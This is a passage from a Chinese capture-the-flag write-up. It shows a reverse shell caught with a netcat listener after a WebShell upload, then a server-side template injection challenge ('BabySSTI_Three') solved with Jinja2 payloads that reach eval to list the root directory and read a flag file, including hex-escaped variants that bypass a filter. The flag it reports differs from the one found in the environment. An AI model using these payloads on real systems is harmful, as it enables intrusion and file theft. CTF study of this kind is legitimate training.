 然后在主控机上监听端口 `nc -lvp 54188`，在 WebShell 上传 payload 执行该文件拿到 shell.

```url
shell=bash bash.png
```

主控机上已拿到 shell，但根目录下未发现 flag，尝试查看环境变量，执行：

```shell
www-data@out:/$ export -p
```

得到其中一条为：

```shell
declare -x FLAG="flag{157d77e1-0d53-42db-a9d6-2b98e4cacec0}"
```

获得 flag.

```plain
flag{4a7e06cd-29ab-491c-a1ff-478427e3b92a}
```

### BabySSTI_Three

使用 pyload

```python
{{''['__class__']['__base__']['__subclasses__']()[166]['__init__']['__globals__']['__builtins__']['eval']('__import__('os').listdir('/')')}}
```

对字符串进行 ASCII 编码绕过，有：

```python
{{''['\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f']['\x5f\x5f\x62\x61\x73\x65\x5f\x5f']['\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f']()[166]['\x5f\x5f\x69\x6e\x69\x74\x5f\x5f']['\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f']['\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f']['\x65\x76\x61\x6c']('\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x6c\x69\x73\x74\x64\x69\x72\x28\x27\x2f\x27\x29')}}
```

网页端得到：

```python
['bin', 'boot', 'dev', 'etc', 'home', 'lib', 'lib64', 'media', 'mnt', 'opt', 'proc', 'root', 'run', 'sbin', 'srv', 'sys', 'tmp', 'usr', 'var', 'flag_in_h3r3_52daad', '.dockerenv', 'app', 'start.sh']
```

得到 flag 的文件路径为 `/flag_in_h3r3_52daad`，再构造 payload

```python
{{''['__class__']['__base__']['__subclasses__']()[166]['__init__']['__globals__']['__builtins__']['eval']('open(\'/flag_in_h3r3_52daad\').read()')}}
```

对字符串进行 ASCII 编码绕过，有：

```python
{{''['\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f']['\x5f\x5f\x62\x61\x73\x65\x5f\x5f']['\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f']()[166]['\x5f\x5f\x69\x6e\x69\x74\x5f\x5f']['\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f']['\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f']['\x65\x76\x61\x6c']('\x6f\x70\x65\x6e\x28\x27\x2e\x2e\x2f\x66\x6c\x61\x67\x5f\x69\x6e\x5f\x68\x33\x72\x33\x5f\x35\x32\x64\x61\x61\x64\x27\x29\x2e\x72\x65\x61\x64\x28\x29')}}
```
